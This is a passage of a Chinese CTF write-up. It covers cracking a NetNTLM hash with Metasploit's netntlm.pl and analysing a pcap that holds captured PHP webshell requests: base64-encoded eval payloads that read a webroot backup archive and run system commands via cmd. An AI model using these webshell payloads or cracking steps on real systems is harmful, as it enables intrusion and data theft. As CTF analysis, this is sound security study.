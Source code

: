 第一步搞定，这里得到的结果为：

9e94258a03356914 NETLMIS hex:4e45544c4d495

Step 2: Perl脚本跑起来

* * *

这里卡了一会，因为看雪的帖子并没有说John文件是如何构造的，他那个是Metasploit自动生成的，所以我又翻了好几个帖子，最后构造了这样一个文件：

user::domain:9e94258a03356914b15929fa1d2e290fab9c8f9f01999448:013f3cb06ba848f98a6ae6cb4a76477c5ba4e45cda73b475:1122334455667788

然后去Kali下的metasploit-framework下跑netntlm.pl脚本：

winson@kali:/usr/share/metasploit-framework/data/john/run.linux.x64.mmx$

sudo perl ./netntlm.pl --seed "NETLMIS" --file /tmp/john_netntlm

跑完第一遍得到NETLMIS666，这个是不区分大小写的，我们还需要跑第二遍，第二遍得到NetLMis666，因此Flag为SCTF{NetLMis666}。

MISC400A
========

* * *

Wireshark打开pcap文件，输入过滤器“tcp contains ".rar"”，发现一个编号为10192的POST数据包，参数经过Unescape解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7&z1=C:\\inetpub\\wwwroot\\backup\\wwwroot.rar

```

其中z0参数经过Base64解码后得到：

```
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");if(@fgetc($fp)){@fclose($fp);@readfile($F);}else{echo("ERROR:// Can Not Read");};echo("|<-");die();

```

可以知道这里是读取了wwwroot.rar这个压缩包文件，在Wireshark将Rar给Dump出来，解压发现需要密码。因为rar文件比较大，所以10192附近有很多TCP的数据包，所以我们使用过滤器“http”进行筛选之后再观察10192附近的数据包，发现了很多POST数据包。

从10192开始，往上一个一个的看POST数据包，发现编号9997的数据包参数经过Unescape解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJkM6XHByb2dyYX4xXFdpblJBUlxyYXIgYSBDOlxJbmV0cHViXHd3d3Jvb3RcYmFja3VwXHd3d3Jvb3QucmFyIEM6XEluZXRwdWJcd3d3cm9vdFxiYWNrdXBcMS5naWYgLWhwSkpCb29tJmVjaG8gW1NdJmNkJmVjaG8gW0Vd

```
